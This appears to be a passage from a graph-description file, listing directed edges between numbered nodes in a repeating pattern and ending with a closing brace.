1685 -> 1710;
1690 -> 1695;
1690 -> 1710;
1695 -> 1700;
1695 -> 1710;
1700 -> 1705;
1700 -> 1710;
1705 -> 1710;
1710 -> 1715;
1715 -> 1721;
1721 -> 1724;
1724 -> 1730;
1730 -> 1735;
1730 -> 1755;
1735 -> 1740;
1735 -> 1755;
1740 -> 1745;
1740 -> 1755;
1745 -> 1750;
1745 -> 1755;
1750 -> 1755;
1755 -> 1769;
1769 -> 1776;
1776 -> 1782;
1782 -> 1786;
1782 -> 1802;
1786 -> 1790;
1786 -> 1802;
1790 -> 1794;
1790 -> 1802;
1794 -> 1798;
1794 -> 1802;
1798 -> 1802;
1802 -> 1806;
1806 -> 1811;
1811 -> 1814;
1814 -> 1819;
1819 -> 1823;
1819 -> 1839;
1823 -> 1827;
1823 -> 1839;
1827 -> 1831;
1827 -> 1839;
1831 -> 1835;
1831 -> 1839;
1835 -> 1839;
1839 -> 1852;
1852 -> 1858;
1858 -> 1863;
1863 -> 1868;
1863 -> 1888;
1868 -> 1873;
1868 -> 1888;
1873 -> 1878;
1873 -> 1888;
1878 -> 1883;
1878 -> 1888;
1883 -> 1888;
1888 -> 1893;
1893 -> 1899;
1899 -> 1902;
1902 -> 1908;
1908 -> 1913;
1908 -> 1933;
1913 -> 1918;
1913 -> 1933;
1918 -> 1923;
1918 -> 1933;
1923 -> 1928;
1923 -> 1933;
1928 -> 1933;
1933 -> 1947;
1947 -> 1954;
1954 -> 1960;
1960 -> 1964;
1960 -> 1980;
1964 -> 1968;
1964 -> 1980;
1968 -> 1972;
1968 -> 1980;
1972 -> 1976;
1972 -> 1980;
1976 -> 1980;
1980 -> 1984;
1984 -> 1989;
1989 -> 1992;
1992 -> 1997;
1997 -> 2001;
1997 -> 2017;
2001 -> 2005;
2001 -> 2017;
2005 -> 2009;
2005 -> 2017;
2009 -> 2013;
2009 -> 2017;
2013 -> 2017;
2017 -> 2030;
2030 -> 2036;
2036 -> 2041;
2041 -> 2046;
2041 -> 2066;
2046 -> 2051;
2046 -> 2066;
2051 -> 2056;
2051 -> 2066;
2056 -> 2061;
2056 -> 2066;
2061 -> 2066;
2066 -> 2071;
2071 -> 2077;
2077 -> 2080;
2080 -> 2086;
2086 -> 2091;
2086 -> 2111;
2091 -> 2096;
2091 -> 2111;
2096 -> 2101;
2096 -> 2111;
2101 -> 2106;
2101 -> 2111;
2106 -> 2111;
2111 -> 2125;
2125 -> 2132;
2132 -> 2138;
2138 -> 2142;
2138 -> 2158;
2142 -> 2146;
2142 -> 2158;
2146 -> 2150;
2146 -> 2158;
2150 -> 2154;
2150 -> 2158;
2154 -> 2158;
2158 -> 2162;
2162 -> 2167;
2167 -> 2170;
2170 -> 2175;
2175 -> 2179;
2175 -> 2195;
2179 -> 2183;
2179 -> 2195;
2183 -> 2187;
2183 -> 2195;
2187 -> 2191;
2187 -> 2195;
2191 -> 2195;
2195 -> 2208;
2208 -> 2214;
2214 -> 2219;
2219 -> 2224;
2219 -> 2244;
2224 -> 2229;
2224 -> 2244;
2229 -> 2234;
2229 -> 2244;
2234 -> 2239;
2234 -> 2244;
2239 -> 2244;
2244 -> 2249;
2249 -> 2255;
2255 -> 2258;
2258 -> 2264;
2264 -> 2269;
2264 -> 2289;
2269 -> 2274;
2269 -> 2289;
2274 -> 2279;
2274 -> 2289;
2279 -> 2284;
2279 -> 2289;
2284 -> 2289;
2289 -> 2303;
2303 -> 2310;
}
